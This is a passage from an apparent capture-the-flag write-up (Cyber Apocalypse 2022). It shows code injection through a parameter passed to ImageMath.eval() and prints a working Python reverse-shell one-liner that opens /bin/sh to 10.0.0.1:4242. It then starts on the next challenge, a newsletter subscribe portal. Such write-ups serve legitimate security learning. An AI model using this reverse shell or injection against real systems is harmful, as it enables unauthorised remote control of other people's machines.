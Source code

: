 Injecting the payload in **background** parameter as it is being evaluated in ImageMath.eval() function.

Reverse Shell Python Payload:

```python
socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Full payload below:

Request:

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517204211.png)

Got a reverse shell.

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517204411.png)

Got the flag.

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517204426.png)

<br>

---
## Intergalactic Post
*The biggest intergalactic newsletter agency has constantly been spreading misinformation about the energy crisis war. Bonnie's sources confirmed a hostile takeover of the agency took place a few months back, and we suspect the Golden Fang army is behind this. Ulysses found us a potential access point to their agency servers. Can you hack their newsletter subscribe portal and get us entry?*

Checking the web page of Intergalactic Post gives a form to subscribe to the newsletter.
